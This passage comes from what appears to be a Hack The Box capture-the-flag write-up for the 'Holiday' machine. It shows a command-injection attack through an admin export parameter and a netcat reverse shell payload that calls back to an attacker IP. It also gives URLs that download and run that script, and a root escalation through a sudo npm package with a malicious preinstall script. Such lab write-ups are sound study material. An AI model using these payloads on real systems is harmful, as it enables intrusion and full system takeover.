 When logged in as an administrator, there is a possiblity to export bookings or notes by pushing the buttons at the bottom of the page shown above. Pushing one of the buttons sends a `GET` requests to the "/admin/export" endpoint which includes a table name in a parameter named "table". After trying to send a variety of URL encoded special characters through this parameter, it is possible to deduce that the value of the `table` parameter is placed in a bash command which is executed. However, there is a filter in place which only allows for certain characters. One of the characters is the ampersand character `&` which can be used to execute any bash commands which can pass the filter.

{% highlight bash linenos %}
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9000 >/tmp/f
{% endhighlight %}

Armed with this information, we can create a file named `rs` with the reverse shell payload content above (Note that the IP has to be changed to the IP of your computer). We place this in the web server root of the Python web server started earlier. We then start a listener by executing the command `nc -lvnp 9000` and visit the two URLs below while logged in as an administrator. This downloads and executes the `rs` file on the target host. Note that `%26` is the URL encoded representation of the ampersand character `&`.

{% highlight none linenos %}
http://10.10.10.25:8000/admin/export?table=x%26wget+168431129/rs
http://10.10.10.25:8000/admin/export?table=x%26bash+rs
{% endhighlight %}

Once these two URLs have been visited, the netcat listener receives a connection from the target and we are greeted with a bash prompt, as can be seen below.

![rce](/assets/2021-10-30-HTB-Holiday-Source-Code-Analysis/rce.png)

The next step is to perform a privilege escalation to get code execution as `root`. The privilege escalation can be performed by abusing sudo rights on npm. By executing `sudo -l`, it is possible to see the line `(ALL) NOPASSWD: /usr/bin/npm i *` which means that we can install arbitrary NodeJS packages with root privileges. This could be dangerous as it is possible install a NodeJS package which executes a set of bash commands before the installation process begins. 

To create such a package, we execute the command `mkdir privescPackage` and create a file named "package.json" in the newly created directory `privescPackage`. We then fill the `package.json` file with the content below. At line 5 to 7, we define a preinstall script which states that the command `/bin/bash -i` should be executed before the installation begins. Note that we won't need to create the main file `index.js`, defined on line 4, since the payload should be executed before the installation. 

{% highlight json linenos %}
{
  "name": "privescPackage",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "preinstall": "/bin/bash -i"
  }
}
{% endhighlight %}
